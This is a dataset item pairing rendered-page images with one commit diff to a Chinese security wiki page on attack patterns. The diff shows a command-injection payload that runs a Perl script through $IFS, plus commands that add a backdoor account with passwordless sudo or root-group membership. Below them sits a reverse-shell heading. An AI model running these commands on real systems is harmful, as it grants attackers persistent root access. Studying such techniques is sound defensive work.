

Before and after one commit to islibra/wiki, an MkDocs documentation site: the page built from docs/security/attack_pattern.md, in a window 1280 px wide and 900 px high, scrolled down 14655 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Update attack_pattern.md

````diff
--- a/docs/security/attack_pattern.md
+++ b/docs/security/attack_pattern.md
@@ -634,8 +634,10 @@ public interface UserMapper {
     1. 执行脚本: `xxx$(perl$IFS"/tmp/hhack.pl")`
 
 1. 找到可以提权到root的脚本, 创建帐号, 设置密码, 添加权限
-    ```sh
-    useradd xxx;echo password | passwd xxx --stdin &>/dev/null;echo "xxx ALL=(root) NOPASSWD: ALL" >> /etc/sudoers
+    ```bash
+    $ useradd xxx;echo password | passwd xxx --stdin &>/dev/null;echo "xxx ALL=(root) NOPASSWD: ALL" >> /etc/sudoers
+    # 或
+    $ useradd -u 999 -g 0 -G 0 attacker && echo -e "password\npassword\n" | passwd attacker
     ```
 
 ### 反弹shell
````
